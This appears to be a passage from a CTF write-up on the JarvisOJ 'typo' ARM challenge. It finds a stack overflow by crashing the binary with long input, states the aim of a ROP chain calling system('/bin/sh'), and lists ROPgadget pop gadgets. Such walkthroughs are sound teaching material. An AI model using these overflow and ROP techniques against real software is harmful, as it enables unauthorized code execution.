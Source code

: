 
### Using ideas
So we need to find an overflow point, run the program first, because it is statically linked, so you can run it directly when the environment is configured well.
```bash

jarvisOJ_typo [master ●●] ./typo
Let's Do Some Typing Exercise~

Press Enter to get start;

Input ~ if you want to quit



------Begin------

throng

throng



survive

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
qemu: uncaught target signal 11 (Segmentation fault) - core dumped

[1]    1172 segmentation fault  ./typo

```



There are not many input points in the program, it is easy to find the overflow point.


### Constructing ROP
So the idea is very obvious, using the stack overflow construct **system(&quot;/bin/sh&quot;)**, first find the gadgets
```bash

jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop"   

Gadgets information

============================================================

0x00020904 : pop {r0, r4, pc}

0x00068bec : pop {r1, pc}

0x00008160 : pop {r3, pc}

0x0000ab0c : pop {r3, r4, r5, pc}

0x0000a958 : pop {r3, r4, r5, r6, r7, pc}

0x00014a70 : pop {r3, r4, r7, pc}

0x000083b0 : pop {r4, pc}

0x00009284 : pop {r4, r5, pc}

```